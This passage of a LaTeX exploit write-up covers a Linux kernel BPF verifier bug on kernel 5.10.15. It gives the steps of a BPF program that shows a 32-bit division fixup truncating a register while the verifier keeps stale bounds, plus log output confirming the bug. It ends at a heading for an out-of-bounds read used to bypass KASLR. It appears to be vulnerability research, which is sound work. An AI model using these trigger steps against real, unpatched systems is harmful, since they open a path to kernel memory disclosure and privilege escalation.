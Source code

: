 \textbf{Approach}
The BPF program:
\begin{enumerate}
    \item Sets \texttt{R0 = R1 = -1} (\texttt{0xFFFFFFFF\_FFFFFFFF})
    \item Saves a copy of \texttt{R1} to \texttt{R8} (before the fixup affects R1)
    \item Executes \texttt{w0 /= w1} (32-bit division)
    \item After division, right-shifts \texttt{R1 >> 32} to expose the truncation
    \item Exfiltrates the shifted value and the original \texttt{R8 >> 32} to a BPF map
\end{enumerate}

The key comparison:
\begin{itemize}
    \item \texttt{R1 >> 32} should be \texttt{0} at runtime (upper bits zeroed by mov32) but the verifier thinks it's \texttt{0xFFFFFFFF}
    \item \texttt{R8 >> 32} should be \texttt{0xFFFFFFFF} (R8 was copied before the fixup)
\end{itemize}

\textbf{Results}

\begin{lstlisting}[style=log,caption={Milestone 1 output on vulnerable kernel 5.10.15}]
[+] BPF program LOADED (fd=5) - verifier accepted!

  result[0] (div result w0/w1)   = 0x0000000000000001  <- 0xFFFFFFFF / 0xFFFFFFFF = 1
  result[1] (R1 >> 32 after div) = 0x0000000000000000  <- upper bits ZEROED (BUG!)
  result[2] (orig R1 >> 32)      = 0x00000000ffffffff  <- original had upper bits

[+] VULNERABILITY CONFIRMED:
    The verifier's fixup_bpf_calls() inserted mov32 that
    truncated R1's upper 32 bits at runtime, but the verifier
    still tracks the original 64-bit bounds.
\end{lstlisting}

\textbf{Analysis:} Result[1] being 0 while result[2] is \texttt{0xFFFFFFFF} proves the \texttt{BPF\_MOV32\_REG(R1, R1)} zeroed R1's upper bits at runtime while the verifier continued tracking the original value. The verifier's bounds are stale. This milestone confirms the vulnerability is present and exploitable on kernel 5.10.15.


\subsection{Milestone 2: OOB Read (KASLR Bypass)}

